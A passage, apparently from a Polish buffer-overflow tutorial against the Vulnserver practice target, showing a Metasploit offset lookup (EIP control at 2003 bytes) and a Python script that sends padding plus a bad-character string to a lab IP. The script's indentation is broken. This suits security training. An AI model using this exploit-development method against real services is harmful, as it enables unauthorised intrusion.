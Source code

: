 
Oczywiście to jeszcze nie jest dokładna wartość *EIP*, jednak zdobyta wartość umożliwi nam ostateczne znalezienie *offsetu*.

Wpisujemy polecenie:

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337

    Output: [*] Exac match at offset 2003

Zatem znaleźliśmy nasz *offset* wynosi on 2003, czyli po 2003 bajtach możemy sterować *EIP*, co oznacza że możemy kontrolować przepływ programu.


## **Bad characters**

Wszystkie *bad characters* bierzemy z [GitHuba](https://github.com/cytopia/badchars). Modyfikujemy nasz kod *2.py* w następujący sposób:

```python
#!/usr/bin/python

import sys, socket

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

shellcode = "A" * 2003 + "B" * 4 + badchars # adresem EIP będzie 42424242 (4 * "B")

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.201.128', 9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()
except:
    print "Error occured while connecting to server"
    sys.exit()
```
